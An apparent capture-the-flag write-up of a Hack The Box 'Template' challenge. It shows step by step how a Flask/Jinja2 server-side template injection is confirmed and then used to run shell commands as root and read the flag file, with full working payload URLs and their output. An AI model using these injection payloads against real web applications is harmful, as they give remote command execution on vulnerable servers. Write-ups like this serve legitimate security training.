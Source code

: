 # Template 

In the host, we notice that the site is developped by ```flask``` (python)
```
Site still under construction
Proudly powered by Flask/Jinja2
```

By default, we are supposed to have a ```/console``` directory ! but when we try we have this error
```
Error 404
The page 'console' could not be found
```

Notice that the directory's name appear in the page, let's try this directory!
```
http://142.93.37.215:30029/{{7*7}}
```
> Yes, we try a SSTI attack

We have the following output on the web !
```
Error 404
The page '49' could not be found
```

So it's clear, it's a SSTI exploit ! then let's try the following command !
```
http://142.93.37.215:30029/{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
> Trying to get the id user !

We've got the following output !
```
Error 404
The page 'uid=0(root) gid=0(root) groups=0(root) ' could not be found
```

We're ```root``` ! The let's discover our pwd or list the current directory !
```
http://142.93.37.215:30029/{{request.application.__globals__.__builtins__.__import__('os').popen('pwd').read()}}
```
> We are in the ```/``` directory !
```
http://142.93.37.215:30029/{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

The second output shows this !
```
Error 404
The page 'bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var ' could not be found
```

Extracting the important files we have
```
bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

Notice there's a ```flag.txt``` file ! let's cat it !
```
http://142.93.37.215:30029/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

Indeed, we've get the flag !
```
HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}
```

Done !
